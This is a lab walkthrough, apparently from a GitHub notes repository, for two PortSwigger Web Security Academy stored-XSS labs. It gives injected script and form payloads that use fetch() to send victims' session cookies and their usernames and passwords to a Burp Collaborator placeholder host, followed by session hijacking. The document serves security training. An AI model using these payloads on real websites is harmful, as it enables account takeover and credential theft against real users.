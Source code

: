## **18. Exploiting cross-site scripting to steal cookies**
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

**Analysis**:
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
2. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    ```javascript
    <script>
     
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie });
    
    </script>
    ```
	 This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
3. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
4. Take a note of the value of the victim's cookie in the POST body.
5. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

Without using Burp Collaborator - Alternatively, you could adapt the attack to make the victim post their session cookie within a blog comment by [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf). However, this is far less subtle because it exposes the cookie publicly, and also discloses evidence that the attack was performed.

## **19. Exploiting cross-site scripting to capture passwords**
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**Analysis**:
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
2. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
   <input name=username id=username> 
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
   This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
3. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
4. Take a note of the value of the victim's username and password in the POST body. Use the credentials to log in as the victim user.
